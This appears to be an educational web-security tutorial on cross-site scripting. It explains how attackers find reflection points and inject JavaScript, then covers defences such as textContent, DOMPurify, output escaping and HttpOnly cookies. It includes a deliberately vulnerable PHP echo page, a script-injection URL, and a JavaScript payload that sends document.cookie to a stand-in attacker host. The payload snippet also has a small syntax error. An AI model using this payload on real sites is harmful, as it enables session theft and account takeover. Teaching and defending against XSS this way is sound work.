


# Cross-Site Scripting

## Introduction
Cross-site scripting (XSS) is a common attack that malicious actors use impersonate other users, including you. Each time you visit a website that requires you to log in, the website sends you what's called a cookie. This is simply a long, randomly-generated string of characters that proves who you are. When you log in, the website sends you the cookie, and each time you visit another page, you send that cookie back. If an attacker can steal that cookie from you, they can send it in their own web requests and act as you - the server won't know the difference. Cross-site scripting is when an attacker exploits a vulnerability in the website that allows them to steal your cookies (or other important data, like passwords) and act as you. If this is on a banking website, they can clear your account. If this is on your email, they can reset all your passwords. If you really think about, the consequences can be disastrous! 

In this tutorial, I'm going to teach you how to avoid this kind of attack and ensure cookies are safe.

## Steps of XSS
Before thinking about how to mitigate, or remove, the vulnerability, I believe it's important to understand how it works. Complete coverage of the vulnerability is only possible through thorough understanding of the vulnerability. I will go through the 3 main steps of cross-site scripting, and afterwards show two different examples.

### Find a Reflection Point
A reflection point is a place on a website where user input is reflected. Some common examples are comments, bios, social media and blog posts, notes, messages, or even what you type into the search bar. There are two main types of XSS:

* Stored/persistent XSS
* Reflected XSS

Reflected XSS is when the user input is temporary, and only present when specifically directed to by the attacker. For example, parameters in a malicious URL might be shown on the webpage, such as a search bar. Going to the URL `https://sos.tn.gov/site-search/malicious-input-here` will display `malicious-input-here` on the page (try it!). However, the victim must go to the URL, and they probably aren't going to type in malicious code to execute on themselves. This is why reflected XSS is more difficult, and usually relies on tricking the victim into clicking on a URL from a phishing email or social media post.



Stored XSS has a much higher success rate because if someone goes to a site with stored, malicious input of their own volition, they will receive the payload. For example, if you make a comment on a Facebook post, anyone that sees the Facebook post will see your input. While tricking a victim into going to that webpage will speed things up, it's not necessary. Stored XSS means your user input is stored in some sort of database or file and, whenever a person access that page, your input is retrieved and then displayed. For example, this is a simplistic pastebin site. If you create a public paste, anyone that visits it will then see your malicious input.



I think it's also important to note that reflection points don't just have to be visual - you can also have hidden reflection points, especially when inserting user input into HTML elements as classes, names, titles, values, etc.

### Insert JavaScript
Once you have found a reflection point, you need to determine if you can inject JavaScript into the page through that reflection point. This part is often very tricky, as there are various methods (effective and ineffective) of filtering JavaScript. Being able to insert JavaScript that is executed is what allows the attacker to steal information like cookies. There are many different ways of inserting JavaScript into code, and it will probably be necessary to try multiple until one works. 

The most basic method is to insert a `<script>` tag, with something like `alert()` in it. Let's take a very simple webpage that only reflects what's put in the URL. Here is the source code:

```
<?php
    // this url is www.example.com/reflect.php
    echo $_GET["input"];
?>
```

If you went to the URL `https://www.example.com/reflect.php?input=<script>alert()</script>`, then you would see an alert pop up - this means your JavaScript injection was successful! If an alert doesn't pop up, see what happened! You must determine what type of filtering took place. Inspect the page once going to the URL above and see what the page source looks like. If you see `<script>alert()</script>` but no pop up, that means they escaped the less-than `<` and greater-than `>` characters. This means the page sees those characters but doesn't recognize it as HTML. If you see `<scrubbed>alert()</scrubbed>`, that means they automatically replaced the word `script` with the word `scrubbed` everywhere. If you see nothing, that means your particular output was flagged as "malicious" and removed.

*Note - a [recent security update to HTML5](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations) has disabled the execution of any `<script>` tags AFTER the page has loaded, but this does not apply to the method below.*

Some filters are limited and easy to bypass. For example, replacing the word `script` with `scrubbed` is easy to bypass because you can insert JavaScript into the attributes of other HTML elements. Here's an example of another way to insert JavaScript that bypasses this filter: ``. Since `/x` is not a valid path for a photo, the element will run the JavaScript contained in the `onerror` attribute - all without the word `script` anywhere!

If your input is ever put directly into a `<script>` tag by the website, it's game over. At that point, filtering out any malicious input would be very difficult and you're likely to miss a weird way of inserting JavaScript.

You can find more examples of inserting JavaScript in the Additional Resources section below.

### Deliver a Payload
Once a reflection point can serve arbitrary JavaScript code, the last step is to craft a payload that will send the victim's cookies to the attacker. This process is called "exfiltration". Any JavaScript code that you have them run will only work on their side (aka, an alert will only show up on their computer, not yours!), so you need to interact with the target to access the flag. This is most often done through HTTP requests. 

An attacker will set up a webserver that logs all traffic flowing to it, including user agents, requested paths, and more. They will then craft a payload that, in JavaScript, transmits the information through one of these avenues, such as in the URL. An example would be `https://attacker.website.com/logging.php?cookie=gdacma25980yn4vm2ci3mhd9er`. Once the user accesses the page, the JavaScript payload is executed, an HTTP request with the cookie is made to the attacker's website, and the cookie is logged and sent to the attacker. 

An example of a JavaScript payload that would accomplish this is:

```
var myImage = new Image(100 200); myImage.src = 'https://attacker.website.com/logging.php?cookie='+escape(document.cookie);
```

The browser sees that it needs to retrieve an image, so it asks the website for one. The webpage being requested will obviously not return an image, but the browser won't know that until it asks. However, by then it is too late - the cookie is already sent.

*Note - the `escape()` function is used so that any special characters in the cookie are escaped and won't break the URL*

## How to Mitigate XSS Attacks
Now on to the most important part of the tutorial - how to make sure that cross-site scripting doesn't affect **your** website. Depending on the needs of your websites, different countermeasures can be taken at different levels of web communication. 

Native JavaScript code is often used on websites and is where reflection points occur. For example, JavaScript code can take in URL parameters and display them on the page. There are 3 main ways of displaying a string on a webpage through the DOM - `textContent`, `innerText`, and `innerHTML`. An example of this is `document.getElementById("page").innerHTML = url_parameters`. `innerHTML` will turn any valid HTML into their respective elements, while the other two options will simply displayed them as a string instead of tags. For this reason, it's recommended that web developers always use `innerText` or `textContent` instead of `innerHTML`. 

If the case arises that valid HTML tags need to be taken from the user and displayed on the page, professional open-source projects like [DOMPurify](https://github.com/cure53/DOMPurify) exist. DOMPurify was written and is constantly updated by cross-site scripting experts to filter out any malicious input. All you need to do is include their `.js` file on your page and run all user input through a single function. This project will remove any malicious user input and return the rest, keeping as much good content as possible. 

Another way to ensure characters essential to cross-site scripting are escaped server-side. The only characters that need to be escaped (so they aren't processed as valid HTML) are the greater-than sign (`>`), the less-than sign (`<`), the single quote (`'`), and the double quote (`"`). There are often built-in functions that do this sort of escaping, such as the `htmlspecialchars()` function in PHP, the `cgi.escape()` function in Python, the `xssFilters.inHTMLData()` function in NodeJS, and more.

Lastly, the most effective way to prevent cookies from being stolen by attackers is to enable the `HttpOnly` attribute on sensitive cookies - this blocks browsers from accessing the site's cookies through JavaScript. Therefore, it doesn't matter how much JavaScript can be run or how bad filters are, the cookies cannot be accessed. Enabling this attribute varies based on the software used to host the website, but can be easily found through a Google search.

## Additional Resources
1. [HTML Attribute Reference](https://www.w3schools.com/tags/ref_attributes.asp)
    - This webpage is a reference guide provided by W3Schools that lists all possible HTML attributes for all possible HTML elements. This is really useful to find attributes that will run JavaScript code. If you search (CTRL + F) for `script`, you'll find dozens of attributes that will run JavaScript in certain situations. A majority of these start with the word `on`, like `onload`, `onerror`, `onfocus`, etc.
2. [XSS Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
    - This webpage is a cheat sheet made by OWASP, a famous website security community. It contains a list of dozens of various techniques (in addition to the two I shared above) used to bypass filters and insert JavaScript into a page. If you're struggling to turn a reflection point into a JavaScript injection point, I would recommend you start browsing this page.
3. [XSS Game](http://xss-game.appspot.com/)
    - This website is a game where you gain experience turning reflection points in JavaScript injection sites with 6 different levels. It gives you a webpage, the source code, and all you have to do is get an alert to show up on the page load to pass. Each level is more difficult, and each requires different techniques to insert JavaScript. 
4. [Cross-Site Scripting Software Attack](https://owasp.org/www-community/attacks/xss/)
    - This page is another tutorial/reference for cross-site scripting. Just like this page, it describes how cross-site scripting works, how to bypass filters, and other useful examples. If I didn't explain a concept in my tutorial clearly enough, I would recommend you go to this site to clarify.
